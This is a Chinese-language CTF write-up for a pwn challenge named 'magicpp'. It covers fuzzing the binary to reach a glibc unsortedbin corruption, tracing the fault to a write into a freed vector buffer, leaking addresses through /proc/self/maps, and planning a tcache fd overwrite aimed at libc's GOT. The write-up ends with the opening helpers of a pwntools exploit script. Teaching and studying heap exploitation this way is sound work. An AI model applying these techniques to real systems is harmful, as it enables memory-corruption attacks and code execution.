 magicpp
=======

[乘法变除法](https://blog.iret.xyz/posts/those-magic-compiler-optimization/)

不能逆。。。just llike强网杯那道一样，全靠猜  
我是傻逼，能逆，之前有阴影了。。。。

能够加载文件，直接加载/proc/self/maps，泄露地址，book起步是1

用fuzz能出，python fuzz出现`malloc(): unsorted double linked list corrupted\`，先把分支增多，如果有crash，再把分支减少，直到不能再少分支，这样能够排除一些对触发crash无影响的操作，然后再改fuzz操作，直到追踪到具体的原因

```c
if (__glibc_unlikely (bck->fd != victim)
              || __glibc_unlikely (victim->fd != unsorted_chunks (av)))
            malloc_printerr ("malloc(): unsorted double linked list corrupted");
```

```c
unsortedbin
all [corrupted]
FD: 0x5b1832653c40 ◂— 0x30 /* '0' */
BK: 0x5b1832653c40 —▸ 0x73fea921ace0 (main_arena+96) ◂— 0x5b1832653c40

```

这里最后发现无论inset的size多大，只要次数超过48次就会出现上述bug

发现是当不停往vector里push时，当超过其范围时会free掉原来，然后申请个更大的，如果原来那个free掉的够大，就会进入unsortedbin，那么我们可以申请来分割

发现unsortedbin中的fd被改了，应该是有个edit after free，然后看看啥时候改的，发现是在free掉原来的进入unsortedbin后改的。

```c
    first_book = (_QWORD *)get_index_chunk(&vector, 0LL);
    value_sum = add_book_and_return_sum(&book);
    *first_book = value_sum;
```

这里`add_book_and_return_sum`可能会free掉原来的，然后此时first\_book 是已经进入unsortedbin了。

exp
---

/proc/self/maps能泄露地址，然后这个能改fd，然后有delete能free掉context块，直接打tcache的fd就好了，由于是将0x719f8a1d5040 (\_rtld\_global)和其他value值相加的和来写fd，想打栈发现随机化改变stack基地址还改变内部偏移量。

应该是可以打IO house of cat的或者exit，但为了学点新东西，这里也可以打libcgot。会调用libc里的got表里的函数在load里。三种方法懒得写了

```python
from pwn import *
import random
context(os="linux",arch="amd64",log_level="debug")

def randinit(n):
    return random.randint(1, n)

def insert(value,book_name,book_size,book_context):
    p.sendlineafter(b"Enter your choice: ",str(1))
    p.sendlineafter(b"Enter the value: ",value )
    p.sendlineafter(b"Enter the book name: ",book_name)
    p.sendlineafter(b"Enter the context size: ",book_size)
    p.sendlineafter(b"Enter the context: ",book_context)

def delete(index):
    p.sendlineafter(b"Enter your choice: ",str(2))
    p.sendlineafter(b"Enter the index: ",index)

def sort():
    p.sendlineafter(b"Enter your choice: ",str(3))

```